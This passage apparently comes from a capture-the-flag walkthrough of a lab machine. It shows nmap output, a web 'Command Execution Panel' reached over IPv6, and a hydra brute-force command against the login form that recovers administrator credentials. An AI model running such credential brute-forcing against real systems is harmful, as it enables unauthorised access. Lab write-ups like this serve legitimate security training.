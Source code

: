```
| address-info:
|   IPv6 EUI-64:
|     MAC address:
|       address: 00:50:56:8f:dd:d4
|_      manuf: VMware

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.36 seconds

```

There’s the apache server I was looking for.

### Web - IPv6 / TCP 80

#### Site

I’ll use the `[ipv6]` format to visit the IPv6 address using a browser.

The page describes itself as the “Command Execution Panel”, and offers a login:

![1531226092223](https://0xdfimages.gitlab.io/img/1531226092223.png)

The login link goes to `/login.php`, which offers a form:

![1531226115116](https://0xdfimages.gitlab.io/img/1531226115116.png)

Neither of the username / password pairs for loki from the post 3366 site work. Tried some basic sqli injection stuff, nothing obvious.

#### hydra

In [Beyond Root](#getting-rce-without-creds) I’ll show how I could have not worried about the creds and got RCE anyway, but for now, I have some creds from the python site that are worth trying. I did a targeted `hydra` brute force over Seclists top usernames to see if any other obvious usernames might work with them, and got a match:

```

root@kali# cat passwords
godofmischiefisloki
trickeryanddeceit

root@kali# hydra -6 dead:beef::0250:56ff:feb9:5cc4 -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P passwords http-form-post "/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-10 08:27:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22 login tries (l:11/p:2), ~2 tries per task
[DATA] attacking http-post-form://mischief.htb:80//login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match
[80][http-post-form] host: mischief.htb   login: administrator   password: trickeryanddeceit
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-10 08:27:10

```
